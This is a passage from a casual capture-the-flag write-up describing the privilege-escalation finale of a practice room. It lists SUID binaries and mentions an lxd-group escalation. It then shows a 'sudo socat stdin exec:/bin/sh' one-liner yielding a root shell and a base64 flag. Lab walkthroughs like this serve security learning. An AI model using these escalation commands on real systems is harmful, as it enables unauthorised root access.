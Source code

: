 ```
/usr/bin/sudo
/usr/bin/socat
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
```
socat acting very sus right now

But look there is also pkexec/lxc

```
bash-4.4$ id
id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
```
yup I see at least two ways

I already did the lxd method...like twice so I wont bother this time

you should try its very fun (use alpine-builder for the image)

I ask gtfobins how to make socat behave 

you would not believe how easy the answer was

```
bash-4.4$ sudo socat stdin exec:/bin/sh
sudo socat stdin exec:/bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
```
One-line superpowers

Get the stuff

```
cd /root
ls
cd /root
ls
root.txt
cat root.txt 
cat root.txt
YW5vdGhlciBmYWtlIGZsYWcgZm9yIGZvb2xz

```
Decode the flag and its done

I have to admit I feel a bit disappointed...I expected "many ways to exploit"

But it still felt very linear...Still a nice room

But I expected many cheese holes

It was more like 2 or 3 ways to escalate and get root

Maybe its me just being stupid and not finding other ways

I will explore it a bit more later (or just read writeups to see how others did it)

Overall a nice easy room!

